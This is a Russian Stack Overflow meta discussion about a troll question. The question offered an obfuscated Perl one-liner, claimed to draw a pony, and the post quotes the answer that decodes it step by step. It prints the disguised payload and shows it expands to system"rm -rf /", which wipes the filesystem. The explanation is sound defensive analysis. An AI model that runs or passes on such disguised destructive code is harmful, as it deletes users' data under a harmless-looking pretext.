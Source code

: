 ﻿---
title: "Ты троянская пони, троянская пони! ✨&#127769; (Как защититься от вопросов с вредоносным кодом?)"
se.owner.user_id: 337540
se.owner.display_name: "Victor VosMottor thanks Monica"
se.owner.link: "https://ru.meta.stackoverflow.com/users/337540/victor-vosmottor-thanks-monica"
se.link: "https://ru.meta.stackoverflow.com/questions/10560/%d0%a2%d1%8b-%d1%82%d1%80%d0%be%d1%8f%d0%bd%d1%81%d0%ba%d0%b0%d1%8f-%d0%bf%d0%be%d0%bd%d0%b8-%d1%82%d1%80%d0%be%d1%8f%d0%bd%d1%81%d0%ba%d0%b0%d1%8f-%d0%bf%d0%be%d0%bd%d0%b8-%d0%9a%d0%b0%d0%ba-%d0%b7%d0%b0%d1%89%d0%b8%d1%82%d0%b8%d1%82%d1%8c%d1%81%d1%8f-%d0%be%d1%82-%d0%b2%d0%be%d0%bf%d1%80%d0%be%d1%81%d0%be%d0%b2-%d1%81-%d0%b2%d1%80%d0%b5%d0%b4%d0%be%d0%bd%d0%be%d1%81%d0%bd%d1%8b%d0%bc"
se.question_id: 10560
se.post_type: question
se.score: 41
---
<h3>Вступление.</h3>
<p>Делая вчера очередь проверок, я наткнулся на вопрос заданный только вчера, содержащий код, но заминусованный капитально: -14 (на текущий момент -16). Думаю, что-то это слишком много, ну если обычно задают плохой вопрос (е.г. домашку, перевод, по-английски и т.д.), то если он недавний, то число даунвоутов где-то ∈ range(-2, -7). Я открыл вопрос и смотрю комментарии и ответ...</p>
<h3>Продолжение</h3>
<blockquote>
предлагаю удалить текст вопроса. – KoVadim 2 дня назад
5
<p>Я голосую за закрытие этого вопроса, потому что вопрос содержит вредоносный код в завуалированном виде. – aleksandr barakin 2 дня назад</p>
<p>Я просто хочу вывести красивого пони в терминале. Ничего вредоносного – Сергей Валерьевич 2 дня назад</p>
<p>пони выводятся по apt moo – KoVadim 2 дня назад</p>
<p>@aleksandrbarakin, может просто в ответе разобрать почему код вредоносный? :-) – Grundy 2 дня назад</p>
<p>внизу уже разобрали – KoVadim 2 дня назад</p>
<p>@KoVadim, я где-то видел именно по пунктам разбор, типа как эта строка преобразуется в аналог rm rf :) – Grundy 2 дня назад</p>
<p>что то модераторы не идут – KoVadim 2 дня назад</p>
<p>кстати, ассоциация: stackoverflow.com/q/9591658/2881286 – Grundy 2 дня назад
2</p>
<p>@Grundy, добавил разбор. – Centrix 2 дня назад
3</p>
<p>@aleksandrbarakin хоть это и троллинг, но вопрос правил не нарушает сам по себе. А хороший ответ только приветствуется.</p>
</blockquote>
<p>Разбор в ответе:</p>
<blockquote>
+9
<p>Эта программа удаляет все директории, в том числе и корневую /.</p>
<p>А если подробнее то:</p>
<p><code>echo &quot;test... test... test...&quot;</code> выполнение этой команды не влияет на работу и добавлено, скорее всего, для усыпления бдительности. То, что происходит в остальном коде — совсем не очевидно из-за преднамеренно запутанного написания. В данной строчке записано всего три последовательно выполняемых команды. Запишем команду следующим образом:</p>
<pre><code>$? ? s:;s:s;;$?: : s;;=]=&gt;%-{&lt;-|}&lt;&amp;|`{; ;
y; -/:-@[-`{-};`-{/&quot; -; ;
s;;$_;see
</code></pre>
<p>Первая конструкция анализирует переменную <code>$?</code> — код возврата предыдущей команды. Так как перед выполнением этой конструкции дочерних процессов не создавалось, $? будет содержать 0, и выполнена будет вторая «ветка» — <code>s;;=]=&gt;%-{&lt;-|}&lt;&amp;|</code>{;<code>. Эта команда, в свою очередь, заменяет строку в переменной-аккумуляторе </code>$_<code>на</code>=]=&gt;%-{&lt;-|}&lt;&amp;|{` (первый символ после s устанавливает ограничитель параметров этого оператора, и хотя традиционно используются слэш / или |, для неясности в этой конструкции используется ограничитель ;).</p>
<p>Вторая команда транслирует содержимое «аккумулятора» по достаточно сложным правилам. В левой части указано четыре диапазона символов, в правой — один. Если раскрыть эти диапазоны, получим следующее соответствие:</p>
<pre><code> !&quot;#$%&amp;'()*+,-./:;&lt;=&gt;?@[\]^_`{|}
`abcdefghijklmnopqrstuvwxyz{/&quot;
</code></pre>
<ul>
<li></li>
</ul>
<p>В результате содержимое $_ принимает вид:</p>
<pre><code>system&quot;rm -rf /&quot;
</code></pre>
<p>Третья же команда дважды (как инструктирует флаг ee) «вычисляет» содержимое аккумулятора — вышеуказанную деструктивную команду — и пытается заменить пустую строку в аккумуляторе на результат вычисления.</p>
</blockquote>
Comments:
<blockquote>
<p>Это неправда. Она должна рисовать красивого пони – Сергей Валерьевич 23 июн в 14:42</p>
<p>Знаем мы ваших пони. – Centrix 23 июн в 14:43
11</p>
<p>Ты троянская пони, троянская пони! ✨🌙 – andreymal 23 июн в 15:05</p>
</blockquote>
<a href="https://ru.stackoverflow.com/questions/1144804/%d0%a7%d1%82%d0%be-%d0%b4%d0%b5%d0%bb%d0%b0%d0%b5%d1%82-%d0%b4%d0%b0%d0%bd%d0%bd%d1%8b%d0%b9-%d0%be%d0%b4%d0%bd%d0%be%d1%81%d1%82%d1%80%d0%be%d1%87%d0%bd%d0%b8%d0%ba-%d0%bd%d0%b0-perl">Link to question</a>
<hr>
<h1>Что я хочу обсудить.</h1>
<p>Такие вопросы к счастью редки. Но они несут очень большую опасность. Любой не знающий перл или невнимательный человек мог запустить этот код и...  <code>sudo rm -rf /</code></p>
<p>Я считал, что наше SOобщество полностью защищено от троллей, но вот это — наша брешь. В правилах такие вопросы не оговариваюстя. Я предлагаю обсудить это в комментариях, и в качестве ответов предложить решение этой проблемы — что делать с такими вопросами? Предупреждения в самом вопросе — мало!</p>
<p><strong>P.S.</strong> За название — спасибо @andreymal'y!</p>
